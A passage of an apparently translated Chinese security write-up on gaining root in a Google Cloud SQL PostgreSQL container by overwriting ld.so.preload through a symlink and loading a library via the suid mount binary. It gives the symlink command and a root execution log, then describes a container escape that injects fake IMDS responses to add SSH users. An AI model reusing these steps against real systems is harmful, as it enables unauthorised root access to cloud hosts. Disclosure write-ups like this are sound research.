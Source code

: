 3. 在 Google Cloud SQL 门户网络中为数据库实例创建新的特制网络条目。

我们需要指定的 `/host/var/lib/docker/overlay2/CONTAINER_HASH` 原因是我们发现写入操作实际上发生在不同的 docker 容器中，该容器的 `/host` 挂载指向主机，因此要覆盖我们的文件，我们必须指定容器的完整路径。

为了利用此文件覆盖原语进行权限提升，我们需要克服最后一个挑战：找到要覆盖的正确文件。找到要覆盖的文件并不容易，因为我们对写入文件的内容的控制非常有限。

即使我们设法覆盖了像 `/etc/passwd` 和 `/etc/shadow` 这样的文件，也会导致解析错误，并且没有真正的安全后果。经过多次尝试，我们在覆盖 `ld.so.preload` 文件时发现了一些有趣的行为。对于那些不熟悉该文件的人，它包含一个以空格分隔的 ELF 共享对象列表，这些对象要在每个程序之前加载。

在使用 `iptables-save` 的内容（包含我们的行 `1.1.1.1/32`）覆盖此文件并跟踪二进制执行后，我们观察到二进制文件试图从当前目录中的 `1.1.1.1/32` 路径加载共享库！这给了我们一个想法：如果我们在这条路径中放置一个共享库会怎样？

然后我们可以执行一个 suid 像mount二进制文件这样的程序，它几乎在每个Linux发行版中都是 suid 二进制文件。库应该以 root 身份运行！这正是我们所做的。

我们在容器 `/etc/ld.so.preload` 中放置了一个符号链接：

```bash
ln -s /host/var/lib/docker/overlay2/093062b7c0a3bd2e8abf62f86629b011fc609c6c34331752e864ac7d251dc3c4/diff/etc/ld.so.preload iptables-save
```

然后我们将 `1.1.1.1/32` IP 添加到允许列表中，这触发了覆盖。最后，我们执行了挂载程序，将我们的权限提升为 root。以下是我们执行的日志：

```bash
[PID: 36595] [UID: 2345] [CWD: /pgsql/data] [CMDLINE: postgres: cloudsqlreplica postgres 10.93.224.7(40982) SELECT ] /bin/postgres
[PID: 36595] [UID: 2345] [CWD: /pgsql/data] [CMDLINE: postgres: cloudsqlreplica postgres 10.93.224.7(40982) idle ] /bin/postgres
[PID: 36595] [UID: 2345] [CWD: /pgsql/data] [CMDLINE: ] N/A
[PID: 1025] [UID: 2345] [CWD: /pgsql/data] [CMDLINE: postgres: postgres postgres 77.126.84.6(60219) SELECT ] /bin/postgres
[PID: 1025] [UID: 2345] [CWD: /pgsql/data] [CMDLINE: postgres: postgres postgres 77.126.84.6(60219) idle ] /bin/postgres
[PID: 1025] [UID: 2345] [CWD: /pgsql/data] [CMDLINE: postgres: postgres postgres 77.126.84.6(60219) SELECT ] /bin/postgres
[PID: 1025] [UID: 2345] [CWD: /pgsql/data] [CMDLINE: postgres: postgres postgres 77.126.84.6(60219) idle ] /bin/postgres
[PID: 36599] [UID: 0] [CWD: N/A] [CMDLINE: /bin/mount ] N/A
[PID: 36600] [UID: 0] [CWD: N/A] [CMDLINE: sh -c id > /tmp/win ] N/A
```

### docker 逃逸

在获得了 `CAP_NET_ADMIN` 和 `CAP_NET_RAW` 能力后，我们可以逃离容器。我们利用了容器和主机之间的共享网络命名空间，并使用了本文中描述的相同 TCP 注入技术，我们通过使用与 `pyinstaller` 打包的 scapy Python 库来自动化该过程。

该技术实质上利用了在主机上运行的 GCP 来宾代理中的功能。每隔一段时间，它就会查询 IMDS 以获取新的配置更新。如果该时间间隔内没有配置更改，则来宾代理发送某些参数，这些参数会导致 IMDS 在 60 秒后响应，从而允许窗口从 IMDS 向来宾代理注入虚假配置响应。配置可以包含应添加到实例的 SSH 密钥。如果未找到配置，代理甚至会创建配置提供的用户。说了这么多，让我们看看脚本的实际效果：

<div align=center><img width="1000" src="/img/2000000012.png"><br><br>通过 TCP 注入转义容器</div><br>

脚本完成后，我们尝试使用新创建的用户登录：

<div align=center><img width="1000" src="/img/2000000013.png"><br><br>在主机虚拟机上执行命令</div><br>

作为奖励，我们的用户是一个 sudoer，授予我们在主机上的 root 权限。
